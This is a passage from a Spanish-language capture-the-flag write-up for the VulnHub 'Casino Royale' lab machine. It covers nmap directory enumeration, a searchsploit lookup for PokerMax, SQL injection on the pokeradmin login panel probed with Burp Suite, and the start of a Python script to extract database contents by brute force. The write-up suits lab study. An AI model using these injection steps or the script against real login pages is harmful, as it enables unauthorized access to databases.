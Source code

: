 ENUMERACION DE DIRECTORIOS POTENCIALES VULNERABLES
```ruby
nmap --script http-enum -p80,8081 192.168.195.133
```
![nmapenum](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/nmapenum.png)

tenemos un `phpmyadmin` nos da la idea que se esta utilizando `php` como lenguaje
Si nos dirigimos a `http://192.168.195.133/install` podremos visualizar las versiones de PokerMax

Entonces vamos a buscar vulnerabilidades con `searchsploit`
```ruby
searchsploit PokerMax
```
![seachsploit](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/searchsploit.png)
![urlsearch](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/urlsearch.png)
![panel](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/panel.png)

Si usamos la URL que nos proporciona el exploit de `searchsploit` nos redirige a un panel de autenticación

# EXPLOTACION
## SCRIPT PYTHON DEL TITO S4VITAR - TAMBIEN SE PUEDE ENUMERAR MUCHO MAS RAPIDO CON SQLMAP
Si probamos una Inyección Sql básica en el panel de autenticacion nos autentica pero vamos a analizar con BurpSuite la Traza
![sqli](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/sqli.png)

Nos abrimos el BurpSuite y probamos ordenamientos de columnas para un intengo de login y al mismo tiempo ver informacion
![burp](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/orderby.png)
vemos que podemos hacer inyecciones, pero no lo podemos ver en web, como normalmente lo hacemos entonces, podemos automatizar este proceso
con un script en Pyhton para poder listar las bases de datos, tablas, columnas, filas, el codigo estará con todas las Lineas comentadas para que entiendan
el funcionamiento del script.

```python
#!/usr/bin/env python3

# Importamos las librerías necesarias
import sys
from pwn import *  # Pwntools para el manejo de logs
import requests  # Para hacer peticiones HTTP
import signal  # Para manejar señales como Ctrl+C
import time  # Para calcular tiempos de respuesta
import string  # Para trabajar con caracteres

# Función para manejar la interrupción con Ctrl+C
def def_handler(sig, frame):
    print("\n\n[!] Saliendo... \n")
    sys.exit(1)

# Capturamos la señal de interrupción (SIGINT) y llamamos a la función def_handler
signal.signal(signal.SIGINT, def_handler)

# URL de la página de login del administrador
login_url = "http://192.168.59.133/pokeradmin/index.php"

# Definimos el conjunto de caracteres que vamos a usar en el ataque de fuerza bruta
characters = string.ascii_lowercase + string.digits + ":"
# Esto incluye: 'abcdefghijklmnopqrstuvwxyz0123456789:'
```